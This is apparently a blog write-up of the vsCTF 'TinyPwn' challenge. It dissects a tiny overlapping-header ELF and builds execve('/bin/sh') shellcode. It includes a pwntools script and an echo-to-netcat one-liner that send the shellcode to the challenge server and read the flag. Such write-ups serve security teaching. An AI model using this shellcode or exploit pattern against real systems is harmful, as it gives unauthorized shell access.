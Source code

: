 ```yaml
---
author: micronoyau
layout: post
title: "TinyPwn"
tags: pwn vsctf
date: 2023-09-25 12:00:00 +0200
excerpt_separator: <!--more-->
---
```


In this challenge, we are given a very small ELF file (only 69 bytes long).
I was clearly inspired by this following article which I strongly ecourage reading : https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html.
The program waits for an input from the user and then immediatly leads to a segfault. The goal is to find the proper input.

## Understanding the ELF structure

As usual, let's try to open and disassemble this file in gdb.

```
"/home/micronoyau/Documents/vsctf/tinypwn/tinypwn": not in executable format: file format not recognized
```

Ooops, gdb does not understand the file structure. But the file is still an elf :
```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ file tinypwn
tinypwn: ELF 32-bit invalid byte order (SYSV)
```

Lets do a quick hexdump to get more insight into this file :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ hexdump -C tinypwn
00000000  7f 45 4c 46 01 00 00 00  00 00 00 00 00 00 01 00  |.ELF............|
00000010  02 00 03 00 34 00 01 00  34 00 01 00 04 00 00 00  |....4...4.......|
00000020  2f 62 69 6e 2f 73 68 00  34 00 20 00 01 00 00 00  |/bin/sh.4. .....|
00000030  00 00 00 00 6a 03 58 bb  00 00 00 00 89 e1 6a 0d  |....j.X.......j.|
00000040  5a cd 80 ff e4                                    |Z....|
00000045
```

There is the string `/bin/sh` at offset 32. Most likely we are going to need that at some point.

The ELF header is the following (please check https://en.wikipedia.org/wiki/Executable_and_Linkable_Format for more details):

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -h tinypwn
ELF Header:
  Magic:   7f 45 4c 46 01 00 00 00 00 00 00 00 00 00 01 00 
  Class:                             ELF32
  Data:                              none
  Version:                           0
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x10034
  Entry point address:               0x10034
  Start of program headers:          4 (bytes into file)
  Start of section headers:          1852400175 (bytes into file)
  Flags:                             0x68732f
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers
```

`readelf` is warning us that the ELF file is potentially corrupt because the section headers offset (`e_shoff`) is `0x2f62696e=1852400175`, but the file specifies there is no section headers.
Ok, we can clearly see there is an overlap between the ELF header and some other data.  More exactly, we can see the program header offset (`e_phoff`) is 4, but the header is 52 bytes long (`e_ehsize`). Lets take a look at the list of segments :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -l tinypwn
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers

Elf file type is EXEC (Executable file)
Entry point 0x10034
There is 1 program header, starting at offset 4

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000000 0x00010000 0x00030002 0x10034 0x10034 R   0x6e69622f
```

The only segment encompasses the entire file and even more (`Offset=0`, `Filesize=0x10034`) at the address `0x10000`. We saw previously in the ELF header that the entrypoint is `0x10034`. Therefore the first instruction is the `0x34=52`th byte in file, right after the end of the header.
Lets disassemble the remaining portion after the header :

```
0:  6a 03                   push   0x3
2:  58                      pop    eax
3:  bb 00 00 00 00          mov    ebx,0x0
8:  89 e1                   mov    ecx,esp
a:  6a 0d                   push   0xd
c:  5a                      pop    edx
d:  cd 80                   int    0x80
f:  ff e4                   jmp    esp
```

Essentially, this does a syscall to `read` (system call number `eax=3`) on stdin (file descriptor `ebx=0`) and stores the result on the stack (`ecx=esp`). We can read up to `edx=0xd=13` characters. Next, it jumps on top of the stack.

The exploit is easy : we just need to input a shellcode to perform a syscall to execve. We know /bin/sh has offset `0x20` in file, so its address in memory is `0x10020`.

```
0:  b0 0b                   mov    al,0xb
2:  bb 20 00 01 00          mov    ebx,0x10020
7:  31 c9                   xor    ecx,ecx
9:  31 d2                   xor    edx,edx
b:  cd 80                   int    0x80 
```

The corresponding shellcode is `\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80`. The null bytes are not a problem because the `read` syscall does not stop until it reaches the end of the buffer or an EOF. But in the heat of the action we forgot this detail and tried to modify this shellcode to remove any `\x00`.

We did not find any shellcode less than 13 bytes to setup properly every register. Instead, we implemented the exact same syscall but changed `edx` to allow for more room :

```
0:  66 ba 10 10             mov    dx,0x1010
4:  b0 03                   mov    al,0x3
6:  cd 80                   int    0x80
```

\x66\xBA\x10\x10\xB0\x03\xCD\x80

Then, all registers are set up accordingly
```
0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  66 bb 02 10             mov    bx,0x1002
7:  c1 e3 04                shl    ebx,0x4
a:  31 c9                   xor    ecx,ecx
c:  31 d2                   xor    edx,edx
e:  cd 80                   int    0x80
```

To account for the padding introduced by this method (at the time of the syscall in the first step, `eip` is somewhere above the stack pointer), we add some NOP instructions between both shellcodes, as shown in this radare2 dump right after the syscall :
![](/assets/vsctf/tinypwn_r2.png)

Putting every piece together and using pwntools :

```
from pwn import *

conn = remote('vsc.tf', 3026)
conn.sendline('\x66\x81\xC2\x01\x01\xB0\x03\xCD\x80\n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6A\x0B\x58\x66\xBB\x02\x10\xC1\xE3\x04\x31\xC9\x31\xD2\xCD\x80')
conn.interactive()
```

![](/assets/vsctf/tinypwn_expl_flag.png)

Note that, to come back to the beginning of the discussion, that our method is overkill compared to a more optimal solution since we don't need to take special care of NULL bytes :
```
echo -ne '\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80\ncat flag.txt\n' | nc vsc.tf 3026
```
